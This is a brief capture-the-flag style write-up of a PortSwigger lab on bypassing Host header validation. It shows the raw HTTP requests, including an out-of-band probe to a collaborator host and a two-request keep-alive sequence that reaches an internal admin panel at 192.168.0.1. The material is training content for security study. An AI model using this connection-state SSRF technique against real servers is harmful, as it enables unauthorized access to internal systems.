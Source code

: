 # [Lab: Host validation bypass via connection state attack](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)

## Lab

This lab is vulnerable to routing-based SSRF via the Host header. Although the front-end server may initially appear to perform robust validation of the Host header, it makes assumptions about all requests on a connection based on the first request it receives.

To solve the lab, exploit this behavior to access an internal admin panel located at `192.168.0.1/admin`, then delete the user `carlos`.

## Scan

burpsuite scanner detected: `Out-of-band resource load (HTTP)`

```http
GET / HTTP/1.1
Host: 8qzuve0lci6cm1xw74fuz1i38uen2dq5stig84x.oastify.com
```

## Analysis

```http
GET /admin HTTP/1.1
Host: 192.168.0.1

HTTP/1.1 301 Moved Permanently
Location: https://0aca003f04af11c5c2261b4d00f60029.web-security-academy.net/
```

## Solutions

create a group:

- first request:

```http
GET /admin HTTP/1.1
Host: 0aca003f04af11c5c2261b4d00f60029.web-security-academy.net
Connection: keep-alive
```

- second request:

```http
GET /admin HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
```

- send group (single connection) => second request get 200 response

solved
